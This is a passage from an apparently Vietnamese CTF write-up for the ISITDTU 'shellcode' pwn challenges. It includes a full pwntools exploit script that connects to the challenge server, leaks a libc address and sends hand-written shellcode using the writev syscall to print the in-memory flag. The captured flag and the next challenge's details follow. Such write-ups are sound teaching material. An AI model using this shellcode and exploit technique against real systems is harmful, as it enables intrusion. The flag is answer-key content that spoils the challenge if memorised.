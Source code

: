 Khi nhảy vào shellcode, `rdx` chứa giá trị của địa chỉ shellcode. Vậy nên địa chỉ của vùng nhớ flag sẽ là `rdx + 0x1000`. 

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./challenge_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.update(os = "linux", arch = "amd64", log_level = "debug", terminal = "cmd.exe /c start wsl".split(), binary = exe)

# p = process(exe.path)
p = remote("152.69.210.130", 3001)

sl  = p.sendline
sa  = p.sendafter
sla = p.sendlineafter
rl  = p.recvline
ru  = p.recvuntil

ru(b"Some gift for you: ")

libc_leak = int(rl().strip(), 16) 
libc_base = libc_leak - libc.symbols["printf"]
log.info(f"libc leak = {hex(libc_leak)}")

payload = asm("""
    add rdx, 0x1000      
    mov rax, 0x100
    push rax         
    push rdx          
    mov rdi, 1 
    mov rsi, rsp 
    mov rdx, 1                                 
    mov rax, 0x14
    syscall           
""")

p.send(payload)

p.interactive() 
```
Flag là `ISITDTU{061e8c26e3cf9bfad4e22879994048c8257b17d8}`

## pwn/shellcode 2

{{< admonition note "Challenge Information" >}}
* 61 solves / 100 pts / by code016hiro
* **Given files:** [shellcode2.rar](https://wru-my.sharepoint.com/:u:/g/personal/2251272678_e_tlu_edu_vn/EX0TUAE1NPhJndbYW1iHfpYBTKYyWKIMhYnFfxp1WSXHFA?e=sBRCLM)
* **Description:** `nc 152.69.210.130 3002`
{{< /admonition >}}
